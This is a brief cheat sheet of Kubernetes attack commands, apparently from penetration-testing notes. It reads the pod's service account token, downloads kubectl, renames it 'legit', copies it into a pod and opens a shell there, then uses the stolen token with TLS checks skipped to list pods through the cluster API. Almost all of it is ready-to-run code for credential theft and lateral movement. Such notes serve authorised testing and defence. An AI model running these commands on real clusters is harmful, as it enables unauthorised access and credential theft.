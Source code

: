 # Service Account Token
cat /run/secrets/kubernetes.io/serviceaccount/token

# K8s client - From inside a pod
```
arch=$(uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g')
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/$arch/kubectl"
mv kubectl legit
kubectl cp legit default/ping-app:/var/tmp/legit
kubectl exec -ti ping-app -- /bin/sh
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
echo $TOKEN
chmod +x /var/tmp/legit
cd /var/tmp
./legit --server https://kubernetes.default --insecure-skip-tls-verify --token $TOKEN get pods
curl -k -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods
```
